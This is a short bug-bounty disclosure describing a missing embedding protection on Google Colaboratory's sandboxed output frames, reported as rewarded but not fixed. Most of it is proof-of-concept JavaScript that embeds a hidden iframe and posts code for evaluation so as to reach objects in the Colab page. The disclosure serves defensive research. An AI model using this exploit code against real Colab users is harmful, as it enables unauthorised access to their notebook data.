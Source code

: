 ```yaml
---
title: Insecure sandbox implementation on Colaboratory output frames (Awarded $1337, Not Fixed)
---
```

Google Colaboratory puts some output such as visualizations into a sandbox however it has no embedding protection such as csp frame-ancestors so the origin is exposed to attackers with local network access.

```js
let w = open('about:blank');
```

On about:blank
```js
opener.location = 'https://colab.research.google.com/';
```

Leak ID from unencrypted DNS then do
```js
let IDfromDNS = 'blah';
let f = document.createElement('iframe');
f.hidden = true;
f.src = 'https://'+IDfromDNS+'-0-colab.googleusercontent.com/outputframe.html';
document.body.appendChild(f);
setTimeout(_ => { f.contentWindow.postMessage({sandboxed_iframe_evaluation: 'console.log(parent.opener[0].google)'}, '*'); }, 100);
```

On the "Welcome to Colaboratory" project using the sandbox on attacker.
```parent.opener[0].google``` refers to stuff.
```parent.opener[5].document``` refers to the chart.

Sometimes sandboxes use a randomly genrated subdomain for isolation unfortunately due to unencrypted DNS this not safe consider moving over to DNS over TLS <https://www.cloudflare.com/learning/dns/dns-over-tls/>
